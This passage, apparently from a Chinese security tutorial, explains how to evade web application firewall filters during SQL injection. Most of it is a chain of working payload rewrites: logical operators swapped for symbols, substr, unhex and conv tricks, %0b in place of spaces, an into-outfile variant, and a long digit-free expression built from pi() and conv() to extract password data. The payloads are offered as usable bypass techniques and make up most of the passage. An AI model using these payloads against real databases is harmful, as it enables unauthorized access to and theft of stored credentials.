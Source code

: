 Filter Evasion在[Beyond SQLi: Obfuscate and Bypass](http://www.exploit-db.com/papers/17934/)和[Mysql注入科普](http://drops.wooyun.org/tips/123)可以看到比较详细的解释

这里只做简化的说明其应对方式依次为 

```
***note***:"=>"左边表示会被Filtered的语句，"=>"右边表示成功Bypass的语句，左边标红的为被Filtered的关键字，右边标蓝的为替代其功能的函数或关键字

and => && 　　or => ||

union select user, password from users　　 =>　　1 || (select user from users where user_id = 1) = 'admin

1 || (select user from users where user_id = 1) = 'admin'　　=>　　1 || (select user from users limit 1) = 'admin

1 || (select user from users limit 1) = 'admin' =>　　1 || (select user from users group by user_id having user_id = 1) = 'admin'
1 || (select user from users group by user_id having user_id = 1) = 'admin' =>　1 || (select substr(group_concat(user_id),1,1) user from users )=1
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 =>  1 || 1 = 1 into outfile 'result.txt'　或者  1 || substr(user,1,1) = 'a'　
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 　=>　　1 || user_id is not null 或者 1 || substr(user,1,1) = 0x61
　　　或者 1 || substr(user,1,1) = unhex(61)　　//　' Filtered
1 || substr(user,1,1) = unhex(61)　　=>   1 || substr(user,1,1) = lower(conv(11,10,36))
1 || substr(user,1,1) = lower(conv(11,10,36)) =>　　1 || lpad(user,7,1)
1 || lpad(user,7,1)　　=>　　1%0b||%0blpad(user,7,1)　　// ' ' Filtered

```

从上面给出的示例来看没有绝对的过滤即便平时构建一个正常SQL语句的全部关键字都被过滤了我们也还是能找到Bypass的方法。普世的阳光和真理尚且照不到每一个角落人为构建出来的一个工具WAF就更加不可能尽善尽美了。我们可以相信WAF能为我们抵挡很多攻击但是绝不能百分之一百的依赖它就算它有着世上最为健全的规则它本身也是会存在缺陷的。

从前面到现在基本上每条注入语句中都有数字如果某查询的数据类型为字符串、或者做了严格限制数字要被和谐掉这就有点棘手了不过办法总是有的

![2014022614064414576.png](http://drops.javaweb.org/uploads/images/89c891f314a6da922012065ec4d3f6d2daeae302.jpg)

![2014022614071092308.png](http://drops.javaweb.org/uploads/images/0f7a699eeecd82d33878259eb9913e5594811c35.jpg)

上面两张图第一张是不能使用数字时通过使用数学函数得到某个数字的值第二张则是这些数字对应的36进制的值因此有时候一个很简单的表达式可能会很复杂或者非常长其实际就是计算mod(a,b)

```
(mod(length(trim(leading(concat(lower(conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(), pow(pi(),pi()))),lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi())),lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(),pow(pi(),pi()))),lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*version())+true,pi()*pi(),pow(pi(), pi()))),lower(conv(ceil((pi()+ceil(pi()))*pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi())*ceil(pi()+pi()),pi()*pi(),pow(pi(),pi()))),conv(ceil(pi()*version()),pi()*pi(),pow(pi(),pi())),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(version()*version()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi(),pi())))))from(pass))),length(pass))

```
